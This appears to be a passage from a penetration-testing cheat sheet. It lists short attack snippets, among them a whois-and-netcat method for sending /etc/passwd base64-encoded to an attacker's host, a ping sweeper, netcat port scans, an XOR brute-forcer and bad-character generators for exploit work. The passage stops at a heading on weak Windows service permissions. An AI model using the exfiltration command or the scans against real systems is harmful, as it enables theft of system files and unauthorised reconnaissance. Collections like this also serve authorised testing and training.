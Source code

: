 ### Whois Data Exfiltration

```bash
# attacker
nc -l -v -p 43 | sed "s/ //g" | base64 -d
# victim
whois -h $attackerIP -p 43 `cat /etc/passwd | base64`
```

### Bash Ping Sweeper

```bash
#!/bin/bash
for lastOctet in {1..254}; do 
    ping -c 1 10.0.0.$lastOctet | grep "bytes from" | cut -d " " -f 4 | cut -d ":" -f 1 &
done
```

### Brute-forcing XOR'ed string with 1 byte key in Python

```python
encrypted = "encrypted-string-here"
for i in range(0,255):
    print("".join([chr(ord(e) ^ i) for e in encrypted]))
```

### Generating Bad Character Strings

```python
# Python
'\\'.join([ "x{:02x}".format(i) for i in range(1,256) ])
```

```bash
# Bash
for i in {1..255}; do printf "\\\x%02x" $i; done; echo -e "\r"
```

### Converting Python to Windows Executable \(.py -&gt; .exe\)

```bash
python pyinstaller.py --onefile convert-to-exe.py
```

### Port Scanning with NetCat

```bash
nc -nvv -w 1 -z host 1000-2000
nc -nv -u -z -w 1 host 160-162
```

### Exploiting Vulnerable Windows Services: Weak Service Permissions
